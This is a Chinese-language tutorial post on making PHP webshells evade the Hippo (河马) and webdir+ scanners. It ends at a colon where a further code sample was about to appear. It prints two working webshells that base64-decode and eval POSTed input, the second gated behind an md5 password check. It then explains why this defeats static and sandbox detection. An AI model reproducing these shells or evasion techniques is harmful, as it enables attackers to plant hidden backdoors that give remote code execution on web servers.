 **免杀河马**  
首先我们拿出之前的样本：

```
<?php  
class YHUV{  
        public $BSFRM = null;  
        public $YVMQFW = null;  
        function __construct(){  
        $this->BSFRM='ZXZhbCgkX1BPU1RbYV0pOw==';  
        $this->YVMQFW = @base64_decode( $this->BSFRM );  
        @eval("/*rEgV_Cd*/".$this->YVMQFW."/*rEgV_Cd*/");  
        }}  
new YHUV();  
?>  

```

直接拿去河马查杀一下，

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

它很可能通过拼接得到了"eval($_POST[xxx]);"，所以认定为木马，那我加一层认证如何  

```
<?php  
class BTAG{  
        public $QOMYW = null;  
        public $XGTCPL = null;  
        public $YIOXAL = null;  
        function __construct(){  
            if(md5($_GET["pass"])=="df24bfd1325f82ba5fd3d3be2450096e"){  
        $this->QOMYW = 'ZXZhbCgkX1BPU';  
        $this->YIOXAL = '1RbYV0pOw==';  
        $this->XGTCPL = @base64_decode($this->QOMYW.$this->YIOXAL);  
        @eval("/*#`|W$~Q*/".$this->XGTCPL."/*#`|W$~Q*/");  
        }}}  
new BTAG();  
?>  

```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这个我是真没想到...  
**免杀webdir+**  
官方说它会拿沙盒跑  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

我们拿绕过河马的马跑一下，这里的检测速度之所以比较慢就是因为它在跑沙盒，这种方式确实比传统的查杀工具难搞很多，但是它并不完美。  

由于eval依然无法动摇，所以我依旧从"$_POST['a']"下手,首先这串字符编码后是过不去webdir+的，但是不编码也过不去，我猜测可能是沙盒在模拟运行的时候拼接出了eval($_POST['a'])，导致被杀，那我使用md5做密钥它总跑不出来吧。修改代码如下：
